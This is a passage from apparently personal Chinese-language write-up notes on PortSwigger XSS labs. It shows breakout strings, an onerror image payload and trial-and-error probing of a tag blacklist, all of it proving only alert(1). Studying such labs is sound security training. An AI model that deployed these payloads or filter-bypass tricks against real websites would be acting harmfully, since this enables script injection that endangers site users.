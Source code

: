 讓整段變成


```js
{"results":[],"searchTerm":"\\"};alert(1);//"}
```

## Lab: Stored DOM XSS

| Dimension | Description                                                                                                         |
| --------- | ------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/dom-based#dom-xss-combined-with-reflected-and-stored-data |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored                              |

這題算蠻簡單的，嘗試三次就猜出邏輯，連 js 的邏輯都沒看


```html
</p><img src="x" onerror="alert(1)">
```

## Lab: Reflected XSS into HTML context with most tags and attributes blocked

| Dimension | Description                                                                                                               |
| --------- | ------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts#xss-between-html-tags                                  |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked |

test payloads


```html
<div>123</div> => Tag is not allowed
<div> => Tag is not allowed
```

突破口，可以關閉標籤，接下來要尋找怎麼開啟新的標籤


```html
</h1>
```

嘗試 `Tag is not allowed` 的邏輯，推測應該是有黑名單機制


```html
<di => bypass
<di> => bypass
<di></di> => bypass
</script> => bypass
alert(1)</script> => bypass
<SCRIPT> => Tag is not allowed
<di><script>alert(1)</di> => Tag is not allowed
<div> => Tag is not allowed
```
